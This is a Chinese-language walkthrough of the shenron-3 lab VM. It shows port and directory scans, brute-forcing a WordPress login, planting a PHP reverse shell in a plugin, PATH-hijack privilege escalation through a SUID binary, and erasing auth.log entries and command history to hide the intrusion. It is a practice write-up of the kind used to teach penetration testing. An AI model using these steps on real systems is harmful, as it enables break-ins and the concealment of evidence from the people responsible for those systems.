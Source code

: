 # 前言

靶机：`shenron-3`

攻击：`kali`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.1.1/24`即可

![](./pic-3/1.jpg)

# 信息收集

## 使用nmap扫描端口

![](./pic-3/2.jpg)

## 网站探测

访问网站，发现可能是`wordpress`，而且经过前面`shenron-2`靶机后，显示与前面相似，可能需要域名解析

![](./pic-3/3.jpg)

查看页面源代码确定为目录下网站，且有脚本语言`php`。

使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具进行目录扫描

```shell
gobuster dir -u http://192.168.1.57 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404
```

![](./pic-3/4.jpg)

访问`http://192.168.1.57/wp-admin`发现，进行跳转，需要进行域名绑定

![](./pic-3/6.jpg)

编辑`/etc/hosts`文件，添加一条映射即可

![](./pic-3/7.jpg)

使用`whateweb`进行指纹识别

![](./pic-3/5.jpg)

结合目前信息来看，确定为`wordpress`，那么使用针对`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://192.168.1.57
```

![](./pic-3/8.jpg)

尝试枚举用户

![](./pic-3/9.jpg)

# 漏洞寻找

结合字典，尝试枚举出用户名及密码，发现用户名`admin`以及密码`iloverockyou`

![](./pic-3/10.jpg)

也可以找`wordpress`的版本漏洞，使用`searchsploit`进行搜索

```shell
searchsploit wordpress core 4.6
```

![](./pic-3/11.jpg)

分析所需要的

- 第一个远程代码执行，这个可以
- 第二个用户名枚举，不过这里以得知一个用户
- 第三个未授权密码重置，也是可以
- 第四个需要认证，那不行
- 第五个可能是查看未授权的一些文件吧
- 第六个拒绝服务

第一个远程代码执行脚本，需要开启`phpmail`，但是这里并没有开启，因为在测试忘记密码时的一个邮件发送，并没有找到，所以不行

第二个暂且不枚举，因为已知一个admin

第三个也是需要开启`mail`，不行

ok，那就算了吧，再试都曲中人散了。

# 漏洞利用

直接使用上面枚举出的用户名和密码登录，OK，完全可以登录

那么查看插件`plugins`，是否可以更改，毕竟这里的插件的PHP语言

发现一个`hello dolly`插件，把这个插件启用，该插件就是在页面右上角打招呼的，直接修改代码，插入`kali`自带的反弹php，在`/usr/share/webshells/php/php-reverse-shell.php`，然后在`kali`开启监听

![](./pic-3/13.jpg)

使用`dpkg -l | grep python`查看有无安装`python`，确定为`python3`

![](./pic-3/14.jpg)

获取交互式界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

使用`find`寻找SUID和`capabilities`

```shell
find / -perm -u=s -type f 2>/dev/null
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```

![](./pic-3/15.jpg)

查看用户情况

![](./pic-3/16.jpg)

查看网络状态，以及系统内核版本

![](./pic-3/17.jpg)

查看定时任务

![](./pic-3/18.jpg)

# 提权

收集一圈，未发现可用，那就把收集到的密码进行切换用户测试，最终测试成功，与爆出的密码一致

![](./pic-3/19.jpg)

查看家目录

![](./pic-3/20.jpg)

好嘛，这直接发现一个SUID权限的可执行文件`network`，执行发现，这很像是`netstat`，并且测试发现，用户的参数并无用处，说明是设置好的，调用这个命令

把这个文件通过`python`下载到`kali`分析

```shell
靶机执行
python3 -m http.server 9999

kali执行
wget http://192.168.1.57/network
```

在`kali`上使用`strings`等命令分析

![](./pic-3/21.jpg)

那么更改环境变量，创建一个同名的文件，最好在`/tmp`目录

```shell
cd /tmp
echo /bin/bash > netstat
export PATH=/tmp:$PATH
chmod +x netstat
```

执行上面命令后，即可发现成功

![](./pic-3/22.jpg)

![](./pic-3/24.jpg)



# 清除痕迹

各种日志清理，一般采用`sed`抹去与自己ip相关的即可，这里省事直接置空

```shell
sed -i "/192.168.1.16/d" auth.log
```

![](./pic-3/23.jpg)

清除命令历史记录

![](./pic-3/25.jpg)

网站上，把之前的脚本文件内容复原即可

# 总结

1. `wordpress`的一些使用，如`xmlrpc.php`可能寻找用户名枚举等
2. 对于枚举的用户进行密码爆破`wpscan`
3. 在网站插件插入`php`的反弹`shell`，这需要可以在网站进行修改文件的权限
4. 一码多用的情况
5. 临时环境变量的提权































